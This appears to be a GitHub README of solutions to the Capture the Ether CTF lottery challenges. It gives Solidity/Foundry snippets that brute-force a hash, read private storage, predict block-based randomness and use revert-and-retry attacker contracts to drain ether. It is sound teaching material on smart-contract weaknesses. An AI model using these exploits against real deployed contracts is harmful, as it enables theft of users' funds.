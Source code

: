# Capture the Ether Solutions

Solutions to the [Capture The Ether](https://capturetheether.com/challenges/) CTF challenges using Foundry ⛳️

## Disclaimer

Most of the contracts were rewritten slightly so they still compile with newer solidity versions. Comments were added for those parts.

## Contents

-   [Lotteries](#lotteries)
    -   [Guess the number](#guess-the-number)
    -   [Guess the secret number](#guess-the-secret-number)
    -   [Guess the random number](#guess-the-random-number)
    -   [Guess the new number](#guess-the-new-number)
    -   [Predict the future](#predict-the-future)

## Lotteries

### Guess the number

Call the `guess` function with the `answer` number `42` which is hardcoded in the contract

```solidity
challenge.guess{value: 1 ether}(42);
```

[Test](./test/lotteries/TestGuessTheNumberChallenge.t.sol)

### Guess the secret number

The answer `n` is now a number that produces a specific `answerHash` which is not reversible

```solidity
function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        // if (keccak256(n) == answerHash) {
        //     msg.sender.transfer(2 ether);
        // }

        if (keccak256(abi.encodePacked(n)) == answerHash) {
            payable(msg.sender).transfer(2 ether);
        }
    }
```

The answer `n` is defined as a `uint8`, which ranges from 0 to 255. We can brute force the answer via a for-loop until we get the specific hash.

```solidity
for (uint8 i = 0; i <= type(uint8).max; i++) {
            bytes32 currentHash = keccak256(abi.encodePacked(i));

            if (currentHash == answerHash) {
                // log result
                console.log("Correct answer: ", i);

                // call contract
                vm.prank(user);
                challenge.guess{value: 1 ether}(i);
            }
        }
```

[Test](./test/lotteries/TestGuessTheSecretNumberChallenge.t.sol)

### Guess the random number

In this case the answer is generated "randomly" and stored "internally" in the contract (default visibility of state variables is `internal`):

```solidity
constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );
    }
```

Data in smart contracts can be read despite being declared as "internal" because in the end all data on the blockchain is public. The key here is to understand how the storage works, and that the `answer` is stored in `slot 0` and therefore can be retrieved by calling:

```solidity
uint8 answer = uint8(uint256(vm.load(address(challenge), 0)));
```

[Test](./test/lotteries/TestGuessTheRandomNumberChallenge.t.sol)

### Guess the new number

The answer is a "random" number generated inside the function call:

```solidity
function guess(uint8 n) public payable {
        require(msg.value == 1 ether);

        uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );

        if (n == answer) {
            payable(msg.sender).transfer(2 ether);
        }
    }
```

This answer isn't actually random though. The EVM is deterministic, so it is not possible to achieve randomness inside it. Given the same inputs, it will output the same result, and we can exploit this.
We can create a new contract that calculates the answer and calls the original contract with it. That way we can make sure that the "random" number is generated on the same block, and we can win every time.

```solidity
        uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        );

        i_challenge.guess{value: 1 ether}(answer);
```

This only works if you let the attacker contract receive Ether:

```solidity
receive() external payable {}
```

And don't forget to transfer the Ether from the attacker contract to your address (or create a withdraw function only callable by you) 💸

[Test](./test/lotteries/TestGuessTheNewNumberChallenge.t.sol)

### Predict the future

The guess answer now has to be set beforehand, and then settled on a new tx, as it requires to be on a future block

```solidity
function lockInGuess(uint8 n) public payable {
  guess = n;
  settlementBlockNumber = block.number + 1;
}

function settle() public {
  require(block.number > settlementBlockNumber);
  uint8 answer = uint8(
            uint256(
                keccak256(
                    abi.encodePacked(
                        blockhash(block.number - 1),
                        block.timestamp
                    )
                )
            )
        ) % 10;
}
```

The "random" answer can _only_ be a number between `0-9` because of the `% 10`.

With this in mind we can exploit it:

1. Create an attacker contract and call `lockInGuess()` with any number between `0-9` through the contract

```solidity
function lockNumber(uint8 _number) public payable {
        require(msg.value == 1 ether);
        require(
            _number >= 0 && _number <= 9,
            "Number must be in the 0-9 range"
        );

        challenge.lockInGuess{value: 1 ether}(_number);
    }
```

2. Wait 2 blocks
3. Call `settle()` through the attacker contract and revert in case challenge wasn't solved

```solidity
function solveChallenge() public {
        challenge.settle();
        // Reverts in case guess != answer
        require(challenge.isComplete(), "Try again");
        (bool success, ) = owner.call{value: address(this).balance}("");
        require(success, "sending eth to owner failed");
    }
```

Call `solveChallenge` in concecutive blocks until solved. This way we only pay when we know we will win.

[Test](./test/lotteries/TestPredictTheFutureChallenge.t.sol)

